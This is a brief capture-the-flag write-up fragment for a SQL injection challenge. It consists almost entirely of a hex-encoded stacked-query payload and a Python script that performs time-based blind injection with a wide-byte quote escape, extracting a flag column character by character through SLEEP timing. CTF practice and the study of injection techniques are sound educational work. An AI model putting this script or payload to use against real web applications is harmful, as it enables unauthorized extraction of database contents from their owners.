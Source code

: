 

```
set @t=0x73656C65637420736C65657028313029;PREPARE sqla from @t;EXECUTE sqla;
```



python脚本

```python
import requests
def sql_inj(sql):
    sql="0x"+sql.encode("hex")
    tpl="set @t=TGT;PREPARE sqla from @t;EXECUTE sqla;".replace("TGT",sql)
    url="http://b0ae8f49254247b8815616a4711941f17f2a145a8a374167.changame.ichunqiu.com/"
    param={
        "id":"\xbf\x27;"+tpl
    }
    requests.get(url,params=param,timeout=2)

#696E666F726D6174696F6E5F736368656D612C6D7973716C2C70646F746573742C706572666F726D616E63655F736368656D61
#table1
#balabala,eihey,fllllll4g,bbb
result=""
count=1+len(result)
while True:
    lock=0
    for i in "0123456789ABCDEF":
        #UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
        try :
            sql="select if(substr(hex(group_concat(COL)),POS,1)='GUESS',sleep(3),0) from TABLE WHERE".replace("COL","fllllll4g")
            sql=sql.replace("GUESS",i).replace("TABLE","table1")
            sql=sql.replace("WHERE","")
            sql=sql.replace("POS",str(count))
            sql_inj(sql)
            print(sql)
                
        except :
            result+=i
            print(result)
            lock=1
            break
    if not lock:
        break
    count+=1

```





### black_list
